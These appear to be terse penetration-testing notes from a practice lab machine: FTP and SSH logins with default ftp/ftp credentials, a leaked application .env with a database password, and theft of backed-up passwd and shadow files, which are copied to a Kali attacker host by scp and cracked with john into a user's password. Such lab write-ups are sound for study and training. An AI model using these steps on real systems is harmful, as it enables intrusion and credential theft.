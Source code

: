 	21
		uname - ftp
		pass - ftp
		but nothing after, hangs, no output
			got it, but ftp is empty, probably for file upload and accessing through web or maybe there is another ftp user
			permission denied for uploading files on ftp
			
		
	22
		ssh with ftp/ftp successfull
	53 domain
	80
		blank home page
		Apache 2.4.52 ubuntugobuster with common, big and medium no results
	Privesc
		3306 on localhost
			APP_KEY=base64:yN/2x7bTc/KG/T0BZvL8s1W4N4+Y87PXRvJm8iPWzE=
			APP_DEBUG=true
			APP_URL=http://localhost
			DB_CONNECTION=mysql
			DB_HOST=127.0.0.1
			DB_PORT=3306
			DB_DATABASE=creds
			DB_USERNAME=root
			DB_PASSWORD=Strong.DB?Password

		users clay, lisa
		/home/lisa/.bash_history
		/home/lisa/.mysql_history
		/mnt/backup/etc/adduser.conf
		passwd and shadow file /mnt/backup/etc
		scp /mnt/backup/etc/passwd kali@192.168.49.102:.
		john --wordlist=/usr/share/wordlists/rockyou.txt unshade.txt --format=crypt
		lisa peanut





